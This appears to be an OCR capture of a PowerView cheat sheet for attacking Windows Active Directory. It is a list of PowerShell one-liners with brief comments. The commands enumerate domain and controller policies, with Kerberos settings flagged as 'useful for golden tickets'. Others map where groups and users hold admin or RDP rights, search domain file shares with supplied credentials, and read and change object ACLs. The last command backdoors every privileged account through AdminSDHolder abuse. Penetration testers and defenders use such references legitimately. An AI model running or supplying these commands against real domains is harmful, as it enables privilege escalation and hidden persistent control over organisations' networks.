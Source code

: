 $DomainPolicy = Get-DomainPolicy [-Domain (DOMAIN)] [-DomainController (DC)]

$DomainPolicy.KerberosPolicy ##### useful for golden tickets ;)

$DomainPolicy.SystemAccess

##### enumerate the current domain controller policy, resolving SIDs to account names, and seeing who has what rights on DCs by default

$DcPolicy = Get-DomainPolicy -Source DC -ResolveSids

$DcPolicy.PrivilegeRights

##### enumerate what machines that a particular group has local admin rights to

Find-GPOLocation -GroupName (GROUP)

##### enumerate what machines that a given user in the specified domain has RDP access rights to, reflecting queries through a particular DC

Find-GPOLocation -UserName (USER) -Domain (DOMAIN) -DomainController (DC) -LocalGroup RDP

##### export a csv of all GPO mappings

Find-GPOLocation | %{$_.computers = $_.computers -join ", "; $_} | Export-CSV -NoTypeInformation gpo_map.csv

##### use alternate credentials for searching for files on the domain

$Password = "PASSWORD" | ConvertTo-SecureString -AsPlainText -Force

$Credential = New-Object System.Management.Automation.PSCredential("DOMAIN\user",$Password)

Invoke-FileFinder -Domain DOMAIN -Credential $Credential

##### enumerate who has rights to the 'matt' user in 'testlab.local', resolving rights GUIDs to names

Get-ObjectAcl -SamAccountName matt -Domain testlab.local -ResolveGUIDs

##### grant user 'will' the rights to change 'matt's password

Add-ObjectAcl -TargetSamAccountName matt -PrincipalSamAccountName will -Rights ResetPassword

##### audit the permissions of AdminSDHolder, resolving GUIDs

Get-ObjectACL -ADSPrefix 'CN=AdminSDHolder,CN=System' -ResolveGUIDs

##### backdoor the ACLs of all privileged accounts with the 'matt' account through AdminSDHolder abuse

Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName matt -Rights All
